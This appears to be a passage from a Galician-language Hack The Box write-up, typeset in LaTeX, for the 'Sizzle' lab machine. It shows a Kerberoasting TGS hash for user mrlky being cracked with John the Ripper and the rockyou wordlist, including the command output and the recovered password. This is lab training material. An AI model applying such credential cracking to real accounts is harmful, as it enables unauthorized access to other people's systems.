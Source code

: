 \documentclass[a4paper]{article}
\begin{document}
\subsection{Credenciais usuario mrlky: john the ripper, hashcat}
Conseguimos o hash do usuario \textbf{mrlky}, do cal imos intentar descubrir o contrasinal mediante \textbf{John The Ripper} e \textbf{Hashcat}:
        \begin{lstlisting}[language=Bash, caption=Credenciais mediante John The Ripper, linewidth=17.8cm]

$ cat hash-kerberoasting.txt
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$C8B04860ABD4D1D0917DC9E6E46...

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash-kerberoasting.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:24 74.60% (ETA: 16:45:50) 0g/s 444745p/s 444745c/s 444745C/s ROYALTY5..ROY2007
Football#7       (?)
1g 0:00:00:25 DONE (2022-07-19 16:45) 0.03980g/s 444550p/s 444550c/s 444550C/s Football0..FoodScience22
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

$ john --show hash-kerberoasting.txt
?:Football#7

1 password hash cracked, 0 left\end{lstlisting}
\end{document}
